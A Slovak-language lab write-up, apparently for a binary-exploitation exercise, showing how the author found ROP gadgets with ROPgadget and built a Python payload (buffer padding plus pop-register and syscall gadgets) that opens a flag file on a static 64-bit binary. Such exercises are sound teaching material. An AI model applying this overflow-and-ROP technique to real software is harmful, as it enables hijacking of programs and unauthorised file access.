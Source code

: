 Jednotlivé gadgety som hľadal pomocou príkazu ROPgadget:

```bash
ROPgadget --multibr --binary 001-exercise-static-binary-64bit > rop.txt
```

Hľadal som hlavne gadgety pop <register>; ret;. V takýchto gadgetoch viem priamo nastavovať hodnotu a zároveň po nastavení sa stack pointer posunie na ďalšiu inštrukciu.

### Inštrukcie pre file open:

```py

file_name = b"001-flag/flag.txt\0"
padding = b"\x41" * (88 - len(file_name))


#constants
zero = p64(0x0)
one = p64(0x1)
two = p64(0x2)

# length
length = p64(0x300)

.
.
.

# opening file

#buffer address start
address = 0x7fffffffe230 + 48 
buffer_addr = p64(address) # change here if needed

# pop rax; pop rdx; pop rbx; ret
pop_rax_rdx_rbx = p64(0x0000000000485b4a)

#pop rsi; ret
pop_rsi = p64(0x0000000000409ffe)

# pop rdi; ret
pop_rdi = p64(0x0000000000401f8f)

# syscall; ret
syscall = p64(0x000000000041a886)
```

Najprv nastavujem register rax, pri4om sa nastaví aj rdx a rbx, následne nastavím hodnotu registra rsi, rdi a zavolám syscall.

Výsledok otvárania súboru:

```py
payload = file_name + padding

file_open = payload + pop_rax_rdx_rbx + two + zero + zero + pop_rsi + zero + pop_rdi + buffer_addr + syscall

```
